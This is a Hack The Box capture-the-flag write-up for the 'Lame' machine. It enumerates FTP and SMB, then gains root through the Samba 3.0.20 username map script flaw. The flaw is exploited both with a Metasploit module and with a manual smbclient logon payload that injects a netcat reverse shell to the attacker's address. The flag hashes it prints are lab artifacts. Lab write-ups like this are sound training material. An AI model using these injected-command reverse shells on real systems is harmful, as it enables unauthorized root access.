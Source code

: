 ```yaml
---
layout: single
title: Lame - Hack The Box
excerpt: "N/A"
date: 2019-04-12
classes: wide
header:
  teaser: /assets/images/htb-writeup-lame/lame_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
  unreleased: false
categories:
  - hackthebox
tags:  
  - linux
  - easy
  - smb
  - anonymous
  - logon
---
```


![](/assets/images/htb-writeup-lame/lame_logo.png){: style="float: right; width: 200px; margin-left: 2em"}

N/A<br><br><br><br><br><br><br>

----------------

# USER
## Enumeration
```bash
root@nidus:/git/thm# nmap -Pn -sC -sV -n 10.10.10.3
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-30 10:09 CEST
  Nmap scan report for 10.10.10.3
  Host is up (0.035s latency).
  Not shown: 996 filtered ports
  PORT    STATE SERVICE     VERSION
  21/tcp  open  ftp         vsftpd 2.3.4
  |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
  | ftp-syst:
  |   STAT:
  | FTP server status:
  |      Connected to 10.10.14.4
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      vsFTPd 2.3.4 - secure, fast, stable
  |_End of status
  22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
  | ssh-hostkey:
  |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
  |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

  Host script results:
  |_clock-skew: mean: -3d00h51m31s, deviation: 2h49m45s, median: -3d02h51m34s
  | smb-os-discovery:
  |   OS: Unix (Samba 3.0.20-Debian)
  |   Computer name: lame
  |   NetBIOS computer name:
  |   Domain name: hackthebox.gr
  |   FQDN: lame.hackthebox.gr
  |_  System time: 2020-07-27T01:17:55-04:00
  | smb-security-mode:
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_smb2-time: Protocol negotiation failed (SMB2)
```

### SMB
Login in to the ftp with anonymous:anonymous we find nothing of use. Enumerate the SMB shares using smbmap and smbclient.

```bash
root@nidus:/git/htb/lame# smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3
        Disk                                                  	Permissions	Comment
  ----                                                  	-----------	-------
  print$                                            	NO ACCESS	Printer Drivers
  tmp                                               	READ, WRITE	oh noes!
  opt                                               	NO ACCESS
  IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
  ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

The share tmp seems interesting, both read and write permissions - lets enumerate more there.


> **NOTE:**
>
> If you're experiencing this error when trying to list with smbclient: "protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED".
> Then go ahead and add the following two lines to `/etc/samba/smb.conf` under `[global]`:
> ```bash
>  client min protocol = NT1
>  client max protocol = SMB3
> ```


```bash
root@nidus:/git/htb/lame# smbclient \\\\10.10.10.3\\tmp
  smb: \> ls
  .                                   D        0  Mon Jul 27 07:50:50 2020
  ..                                 DR        0  Sun May 20 20:36:12 2012
  5145.jsvc_up                        R        0  Mon Jul 27 07:17:46 2020
  .ICE-unix                          DH        0  Mon Jul 27 07:16:41 2020
  .X11-unix                          DH        0  Mon Jul 27 07:17:08 2020
  .X0-lock                           HR       11  Mon Jul 27 07:17:08 2020
```

There's nothing of direct use for us in here either. Instead we change the approach and look for known samba vulnerabilities.

Using searchsploit we look for any direct vulnerabilities of Samba version 3.0.20.

```bash
root@nidus:/git/htb/lame# searchsploit samba 3.0.20
  ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
    Exploit Title                                                                                                              |  Path
  ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
  ..
  Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                            | unix/remote/16320.rb
  ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Direct we find a msf module available. Turns out this module gives us instant root. Grab root.txt and user.txt

```bash
  msf5 auxiliary(scanner/ssh/ssh_enumusers) > use exploit/multi/samba/usermap_script
  msf5 exploit(multi/samba/usermap_script) > set lhost 10.10.14.4
  msf5 exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
  msf5 exploit(multi/samba/usermap_script) > run

    [*] Started reverse TCP handler on 10.10.14.4:4444
    [*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:46617) at 2020-07-30 10:53:52 +0200

    whoami
      root
    pwd
      /
    cat /root/root.txt
      92caac3be140ef409e45721348a4e9df
    ls -al /home
      total 24
      drwxr-xr-x  6 root    root    4096 Mar 14  2017 .
      drwxr-xr-x 21 root    root    4096 May 20  2012 ..
      drwxr-xr-x  2 root    nogroup 4096 Mar 17  2010 ftp
      drwxr-xr-x  2 makis   makis   4096 Mar 14  2017 makis
      drwxr-xr-x  2 service service 4096 Apr 16  2010 service
      drwxr-xr-x  3    1001    1001 4096 May  7  2010 user
    cat /home/makis/user.txt
      69454a937d94f5f0225ea00acd2e84c5
```

### Or manually without metasploit: 

Logging in as anonymous user on the smb-service we find that 'logon' option is available.
We can exploit this directly to get a reverse shell.

**(a)** Verify options with '?' or 'help'
```bash
smbclient \\\\10.10.10.3\\tmp\\
smb: \> ?
  [..]
  wdel           logon          listconnect    showconnect    tcon
```

**(b)** Setup a reverse shell to your box
```bash
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.10 4488`"
  Password:
  session setup failed: NT_STATUS_IO_TIMEOUT
```

**(c)** Grab the incomming session
```bash
[root:/git/htb/lame]# nc -lvnp 4488                                                                                               (master✱)
listening on [any] 4488 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.3] 58543
  whoami
  root
  python -c 'import pty;pty.spawn("/bin/bash")';
  root@lame:/root# cat root.txt
    cat root.txt
    744e9fa96f4e8423020ccb841c60e4d2
```
